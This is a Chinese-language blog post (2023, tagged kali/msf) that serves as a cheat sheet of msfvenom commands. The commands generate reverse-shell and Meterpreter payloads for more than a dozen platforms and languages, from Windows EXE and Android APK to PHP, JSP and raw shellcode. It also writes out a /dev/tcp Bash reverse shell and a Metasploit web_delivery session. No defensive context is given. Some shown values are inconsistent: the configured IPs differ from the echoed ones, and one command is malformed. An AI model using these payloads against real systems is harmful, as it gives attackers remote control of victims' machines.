 ==========================
MSF生成各种Payload
==========================


.. post:: 2023-02-26 21:30:12
  :tags: kali, msf
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn




Windows
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe

Linux
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf

MAC OS
==========================

.. code-block:: sh

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho

Android
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk

PowerShell
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

PHP
==========================

.. code-block:: sh

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>shell.php

ASP.net
==========================

.. code-block:: sh

	msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx

JSP
==========================

.. code-block:: sh

	msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp

War
==========================

.. code-block:: sh

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.war

Node.js
==========================

.. code-block:: sh

	msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js

Python
==========================

.. code-block:: sh

	msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py

	# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.179.129 LPORT=58765 -f raw -o payload.py

Perl
==========================

.. code-block:: sh

	msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl

Ruby
==========================

.. code-block:: sh

	msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb

Lua
==========================

.. code-block:: sh

	msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua

Windows ShellCode
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

linux shellcode
==========================

.. code-block:: sh

	msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

mac shellcode
==========================

.. code-block:: sh

	msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

Bash shellcode
==========================

.. code-block:: sh

	[root@localhost ~]# msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.30 LPORT=8888 > -f raw > payload.sh
	[root@localhost ~]# exec 5<>/dev/tcp/xx.xx.xx.xx/xx
	[root@localhost ~]# cat <&5 | while read line; do $line 2>&5 >&5; done

Python shellcode
==========================

.. code-block:: sh

	msf5 > use exploit/multi/script/web_delivery
	msf5 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
	msf5 exploit(multi/script/web_delivery) > set srvhost 192.168.179.129
	srvhost => 192.168.1.30
	msf5 exploit(multi/script/web_delivery) > set lhost 192.168.179.129
	lhost => 192.168.1.30
	msf5 exploit(multi/script/web_delivery) > set lport 58765

	msf5 exploit(multi/script/web_delivery) > set uripath lyshark
	uripath => lyshark
	msf5 exploit(multi/script/web_delivery) > exploit -j -z
